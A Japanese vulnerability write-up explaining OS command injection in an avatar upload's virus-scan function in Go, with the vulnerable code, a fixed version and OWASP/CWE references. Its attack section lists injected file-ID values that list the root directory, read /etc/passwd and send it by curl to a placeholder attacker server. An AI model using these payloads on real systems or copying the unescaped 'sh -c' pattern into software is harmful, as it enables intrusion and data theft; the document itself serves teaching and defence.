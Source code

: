 # OSコマンドインジェクション（アバターアップロード機能）

## 脆弱性の概要
アバターアップロード機能において、ユーザーが指定したファイルIDがウィルススキャン処理で適切にエスケープされずにOSコマンドに渡されるため、OSコマンドインジェクションの脆弱性が存在します。攻撃者はこの脆弱性を悪用して、サーバー上で任意のコマンドを実行することができます。

## 影響
この脆弱性が悪用された場合、以下のような影響があります：
- サーバー上での任意のコマンド実行
- 機密情報の漏洩
- サーバーの乗っ取り
- サービス拒否攻撃（DoS）

## 攻撃方法
1. プロフィール編集画面でアバター画像をアップロードする際に、ファイルIDに悪意のあるコマンドを含める
2. 例えば、以下のようなファイルIDを使用する：
   - `avatar.jpg; ls -la /`
   - `avatar.jpg && cat /etc/passwd`
   - `avatar.jpg | curl -X POST -d @/etc/passwd https://攻撃者のサーバー/`

## 脆弱なコード
```go
func scanFile(filePath string) error {
    // 脆弱性: OSコマンドインジェクション
    // ユーザー入力（filePath）を適切にエスケープせずにコマンドに渡している
    cmd := exec.Command("sh", "-c", "echo 'Scanning file: "+filePath+"' && grep -q 'virus_signature' "+filePath)
    output, err := cmd.CombinedOutput()
    if err != nil {
        if exitErr, ok := err.(*exec.ExitError); ok && exitErr.ExitCode() == 1 {
            // grepコマンドがパターンを見つけられなかった場合（終了コード1）は正常とみなす
            return nil
        }
        log.Printf("ウィルススキャンエラー: %v, 出力: %s", err, string(output))
        return err
    }
    return fmt.Errorf("ウィルスが検出されました")
}
```

## 対策方法
1. OSコマンドを使用せずに、プログラム内部でファイルの検査を行う
2. 必要に応じてOSコマンドを使用する場合は、以下の対策を行う：
   - ユーザー入力を適切にエスケープする
   - シェル（sh, bash）を介さずに直接コマンドを実行する
   - コマンドライン引数を配列として渡す

### 修正例
```go
func scanFile(filePath string) error {
    // 修正: 引数を配列として渡し、シェルを介さずに実行
    cmd := exec.Command("grep", "-q", "virus_signature", filePath)
    err := cmd.Run()
    if err != nil {
        if exitErr, ok := err.(*exec.ExitError); ok && exitErr.ExitCode() == 1 {
            // grepコマンドがパターンを見つけられなかった場合（終了コード1）は正常とみなす
            return nil
        }
        log.Printf("ウィルススキャンエラー: %v", err)
        return err
    }
    return fmt.Errorf("ウィルスが検出されました")
}
```

## 参考情報
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
